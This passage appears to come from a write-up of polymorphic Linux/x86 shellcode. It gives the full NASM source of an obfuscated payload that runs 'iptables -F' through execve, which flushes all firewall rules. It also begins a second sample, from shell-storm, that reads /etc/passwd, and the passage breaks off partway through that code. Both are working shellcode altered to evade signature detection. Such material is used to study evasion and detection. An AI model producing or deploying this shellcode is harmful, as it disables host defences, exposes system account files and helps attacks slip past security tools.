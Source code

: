 ### Polymorphic code

```nasm
section .text

global _start

_start:

mov eax, 0x2d5a5a46     ; 0x5a462d5a (shifted 16 bits)
ror eax, 0x10
push eax
add eax, 0x191f3f08
push eax
sub eax, 0x11f0fbf9
push eax
sub eax, 0x32450202
add eax, 0x2            ; avoid null-byte
push eax
add eax, 0x3343c0c6
push eax

mov esi, esp            ; esi -> "//sbin//iptablesZ-FZ" 
mov ebx, esi            ; const char *filename
cdq                     ; edx = 0
mov eax, edx            ; eax = 0
mov byte [esi+16], dl   ; null out Z byte: //sbin//iptablesZ -> "//sbin//iptables"
mov byte [esi+19], dl   ; null out Z byte: -FZ -> "-F"
push edx                ; null-terminatation for argv
lea eax, [esi+17]       ; char *const argv[1] -> "-F"
push eax                ; 
push esi                ; char *const argv[0] -> "//sbin//iptables"
mov ecx, esp            ; char *const argv[] -> "//sbin//iptables", "-F"
push edx                ; NULL byte for envp[]
mov eax, edx            ; eax = 0
mov edx, esp            ; char *const envp[] -> NULL
add eax, 0xb            ; sys_execve
int 0x80
```

## Sample 3: Linux/x86 - File Reader /etc/passwd

- Original size: 76 bytes
- Polymorphic size: 90 bytes (18% increase)
- Source: [http://shell-storm.org/shellcode/files/shellcode-73.php](http://shell-storm.org/shellcode/files/shellcode-73.php)

### Original code

```nasm
section .text

global _start

_start:

xor eax, eax
xor ebx, ebx
xor ecx, ecx
xor edx, edx
jmp two

one:

```